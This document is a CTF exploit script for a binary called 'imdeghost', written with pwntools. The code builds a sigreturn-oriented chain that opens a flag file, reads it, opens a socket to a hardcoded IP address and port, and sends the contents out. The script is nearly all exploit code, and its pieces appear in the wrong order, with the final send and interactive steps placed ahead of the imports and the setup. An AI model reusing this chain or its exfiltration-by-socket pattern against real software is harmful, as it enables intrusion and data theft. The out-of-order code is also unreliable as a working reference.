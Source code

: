 ```python

# sys_write(1, mem+0xb00, 0x300)
buf += Sigreturn(1, 0, 0, 0x300, mem + 0xb00, 1, mem + 0x170, mem + 0xf0*5, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

buf += b"A"*(0xe00-len(buf))
buf += b"./\x00"
buf += b"A"*(0xe80-len(buf))
buf += p32(0x55550002) + p32(ip_addr)
buf += b"A"*(0xf00+15-len(buf))
#pause()
s.send(buf)

s.interactive()
```

Python code to get the flag file (If you get it from the server, you need to set NAT etc on your router.)
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './imdeghost'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42007
  s = remote(HOST, PORT)
  ip_addr = 0xbe409f76  
else:
  s = process(BINARY)
  libc = elf.libc
  ip_addr = 0x0100007f  # 127.0.0.1 

s.recvuntil("for you will not be seeing it again.\n")

mem         = 0x6900000000
syscall_ret = 0x13370000004b # syscall; test r14,r14; jne 0x13370000003e; mov rax,r15; ret

def Sigreturn(rax, rbx, rcx, rdx, rsi, rdi, rbp, rsp, rip, r8, r9, r10, r11, r12, r13, r14, r15):
  buf  = p64(0)*5
  buf += p64(r8) + p64(r9) + p64(r10) + p64(r11) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
  buf += p64(rdi) + p64(rsi) + p64(rbp) + p64(rbx) + p64(rdx) + p64(rax) + p64(rcx) + p64(rsp) + p64(rip)
  buf += p64(0) + p64(0x33) + b"AAAAAAAA"*4 + p64(0)
  return buf

buf  = p64(syscall_ret)
# sys_open("./0101111001001101\", 0, 0)
buf += Sigreturn(2, 0, 0, 0, 0, mem + 0xe00, mem + 0x170, mem + 0xf0, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_read(0, mem+0xb00, 0x300)
buf += Sigreturn(0, 0, 0, 0x300, mem + 0xb00, 0, mem + 0x170, mem + 0xf0*2, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_socket(2, 1, 6)
```